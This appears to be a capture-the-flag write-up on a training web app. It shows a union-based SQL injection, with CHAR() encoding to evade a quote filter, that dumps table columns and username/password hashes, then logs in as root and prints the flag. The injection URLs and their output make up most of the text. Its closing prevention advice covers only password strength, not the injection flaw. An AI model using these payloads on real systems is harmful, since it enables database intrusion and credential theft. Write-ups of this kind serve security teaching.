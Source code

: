 # Bruteforce

We can brute force login by using simple common passwords

## Method

Thanks to the SQL injection flaw on search member and search image, we see a database called: "Member Brute Force"

### getting list of tables from bruteforce database

normally, in sql it would be something like this:

```

use Member_Brute_Force;
show tables;

```

but since we're using sql injection we have to use union and get the table names via select,

we can get the information we need from information_schema.tables

to see all available columns you could do 

```

select * from information_schema.tables

```

in our case, we're only interested in table names and to narrow it down further we could do

```

select table_name from information_schema.tables where table_schema='Member_Brute_Force'

```

however the php page will throw an error if we try to use quotes in our query, so we need a workaround

We can use CHAR() and python

By typing this in Terminal

```

python -c 'print([ord(c) for c in "Member_Brute_Force"]);'

```

We get the CHAR value for "Member_Brute_Force"
Which is

```

[77, 101, 109, 98, 101, 114, 95, 66, 114, 117, 116, 101, 95, 70, 111, 114, 99, 101]

```

So intead of the earlier statement we can use

```

http://192.168.1.102/index.php?page=member&id=-1 union select column_name,0 from information_schema.columns where table_schema=CHAR(77, 101, 109, 98, 101, 114, 95, 66, 114, 117, 116, 101, 95, 70, 111, 114, 99, 101)&Submit=Submit

```

#### result

```

ID: -1 union select column_name,0 from information_schema.columns where table_schema=CHAR(77, 101, 109, 98, 101, 114, 95, 66, 114, 117, 116, 101, 95, 70, 111, 114, 99, 101) 
First name: id
Surname : 0

ID: -1 union select column_name,0 from information_schema.columns where table_schema=CHAR(77, 101, 109, 98, 101, 114, 95, 66, 114, 117, 116, 101, 95, 70, 111, 114, 99, 101) 
First name: username
Surname : 0

ID: -1 union select column_name,0 from information_schema.columns where table_schema=CHAR(77, 101, 109, 98, 101, 114, 95, 66, 114, 117, 116, 101, 95, 70, 111, 114, 99, 101) 
First name: password
Surname : 0

```

This gives us the column names of the table in the "Member_Brute_Force" database. which are id, username, and password

### Getting login information from the table

To list all usernames and passwords type:

```

http://192.168.1.102/index.php?page=member&id=-1 union select username, password from Member_Brute_Force.db_default&Submit=Submit

```

#### result 

```

ID: -1 union select username, password from Member_Brute_Force.db_default 
First name: root
Surname : 3bf1114a986ba87ed28fc1b5884fc2f8
ID: -1 union select username, password from Member_Brute_Force.db_default 
First name: admin
Surname : 3bf1114a986ba87ed28fc1b5884fc2f8

```

Here we see that the username and password are the same LOL.
So we just have to decode the hash.

## How to get the flag

Decode the hash we got above
Which gives us the password "shadow"  
Login with the credentials:

```

username:   root
password:   shadow

```

We then get the flag B3A6E43DDF8B4BBB4125E5E7D23040433827759D4DE1C04EA63907479A80A6B2

## Prevention

Use checks and back-end validation to only allow complex passwords with a combination of uppercase and lowercase characters, numbers, and symbols.
